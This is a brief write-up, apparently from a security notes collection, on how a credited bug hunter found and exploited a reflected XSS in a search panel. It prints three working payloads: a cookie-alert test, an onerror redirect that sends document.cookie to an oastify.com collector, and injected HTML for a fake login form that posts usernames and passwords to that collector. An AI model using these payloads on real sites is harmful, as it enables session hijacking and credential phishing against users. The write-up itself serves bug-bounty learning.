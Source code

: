 # RXSS
This document has been made thanks to [coffinxp7](https://x.com/coffinxp7).

He find a panel where you can search and you have a output of the result.
The video is available in [twitter](https://x.com/coffinxp7/status/1839264787328270604)

He firstly execute that RXSS into the search bar to test if is vulnerable.

``` html
<img src=x onerror=prompt(document.cookie)>
```

On the video we can see that the RXSS is valid, so he after create a oastify subdomain throw Burpsuite and capture the cookie of the victim.
To capture the cookie he implement this RXSS:

``` html
<img src=x onerror="document.location='http://subdomain.oastify.com?c='+document.cookie;" />
```

After he see the impact of the vulnerability, he develops an a phising page thanks to the vulnerabilitie injecting code to show a "valid" login with the following RXSS:

``` html
<h3>Please login to proceed</h3> <form action=http://SUBDOMAIN.oastify.com>Username:<br>
<input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Login"></br>
```

After inject that code he was able to capture credentials + cookies.

Very good job of [@coffinxp7](https://x.com/coffinxp7).

![Coffin_RXSS](https://pbs.twimg.com/media/GYZk3-WWgAAlErF?format=jpg&name=large)
